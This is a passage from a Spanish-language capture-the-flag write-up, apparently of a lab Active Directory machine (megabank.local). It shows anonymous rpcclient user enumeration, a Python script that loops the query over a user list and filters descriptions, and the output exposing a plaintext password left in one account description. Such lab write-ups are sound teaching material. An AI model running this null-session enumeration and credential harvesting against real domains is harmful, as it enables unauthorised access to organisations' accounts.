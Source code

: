 ```bash
	Password last set Time   :	Thu, 28 Mar 2024 15:43:03 CST
	Password can change Time :	Fri, 29 Mar 2024 15:43:03 CST
	Password must change Time:	Wed, 13 Sep 30828 20:48:05 CST
	unknown_2[0..31]...
	user_rid :	0x1f4
	group_rid:	0x201
	acb_info :	0x00000210
	fields_present:	0x00ffffff
	logon_divs:	168
	bad_password_count:	0x00000000
	logon_count:	0x00000077
	padding1[0..7]...
	logon_hrs[0..21]...
```

- Como son muchos usuarios podemos crear un **script** en **Python3** que nos filtre por las descripciones de los usuarios para ir más rapido.

```python
import subprocess
import re

with open('users.txt', 'r') as f:
    for user in f:
        user = user.strip()
        # Ejecutamos el comando
        command_output = subprocess.run(['rpcclient', '-N', '-U', '', 'megabank.local', '-c', f'queryuser {user}'], capture_output=True, text=True)
        # Filtramos por las lineas que contengan "User Name" o "Description"
        filtered_output = [line for line in command_output.stdout.split('\n') if re.search(r'User Name|Description', line)]
        # Imprimimos el resultado
        for line in filtered_output:
            print(line)

```

- Y encontramos una contraseña.

```bash
➜  nmap python3 xd.py
	User Name   :	Administrator
	Description :	Built-in account for administering the computer/domain
	User Name   :	Guest
	Description :	Built-in account for guest access to the computer/domain
	User Name   :	krbtgt
	Description :	Key Distribution Center Service Account
	User Name   :	DefaultAccount
	Description :	A user account managed by the system.
	User Name   :	ryan
	Description :	
	User Name   :	marko
	Description :	Account created. Password set to Welcome123!
	User Name   :	sunita
	Description :	
	User Name   :	abigail
	Description :	
	User Name   :	marcus
	Description :	
	User Name   :	sally
	Description :	
	User Name   :	fred
	Description :	
	User Name   :	angela
	Description :	
```